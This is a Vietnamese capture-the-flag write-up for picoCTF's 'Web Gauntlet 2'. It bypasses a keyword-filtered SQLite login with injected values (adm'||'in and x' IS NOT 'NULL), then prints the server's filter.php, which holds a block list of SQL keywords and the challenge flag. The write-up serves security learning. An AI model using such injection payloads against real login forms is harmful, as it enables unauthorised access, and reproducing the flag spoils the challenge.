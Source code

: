 # Web Gauntlet 2

## Description

This website looks familiar... 
Log in as admin Site: http://mercury.picoctf.net:21336/ 
Filter: http://mercury.picoctf.net:21336/filter.php

## Hint

I tried to make it a little bit less contrived since the mini competition.
Each filter is separated by a space. Spaces are not filtered.
There is only 1 round this time, when you beat it the flag will be in filter.php.
There is a length component now.
sqlite

## Points

170 points

## Solution

Ta có một form đăng nhập như thường lệ , mình sẽ nhập bất kì vào để xem form hoạt động ra sao . Kết quả xuất hiện một thông báo **not admin** và đặc biệt hơn là nó còn xuất hiện câu truy vẫn phía sau . Đến đây ta có thể khẳng định rằng nó là một chall SQLi.

![img](image/mg1.png)

Tuy nhiên bạn không thể nhập bất cứ cái gì vào cũng được vì nó đã filter một số câu truy vấn và kí tự đặc biệt.

> Filters: *or and true false union like = > < ; -- /* */ admin*

Rõ ràng bạn có thể thấy nó filter hầu hết các kí tự command vì đây là dạng SQLi xác thực lên vector sẽ là bypass cái form bằng cách nào đó .
Ban đầu mk đã thử khá nhiều cách bypass user và bỏ qua phần passwd điều này đưa mk đến bế tắc và may mắn thay sau khi đc hint từ anh nhienit thì mk mới vỡ ra là cần bypass cả user và passwd.

Ta có hint bài cho là **sqlite** và sau một hồi google thì mk đã yimf ra được hướng đi (https://www.sqlite.org/lang_expr.html) .

Với user vì đề filter *admin* nên ta sẽ bypass bằng cách nối chuỗi , cụ thể:
> adm'||'in

Với passwd ta sẽ bypass bằng toán tử *IS NOT* nó hoạt động giống như *!=*, ý tưởng là ta sẽ so sánh một kí tự với *NULL* khi đó *IS NOT* sẽ trả về True , cụ thể :
> x' IS NOT 'NULL

QUERY :
> SELECT username, password FROM users WHERE username='adm'||'in' AND password='x' IS NOT 'NULL'

Sau khi bypass xong , ta sẽ vào trang filter.php và get flag !!!

> filter.php
```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_838ec9084e6e0a65e4632329e7abc585}
?>
```
DONE!





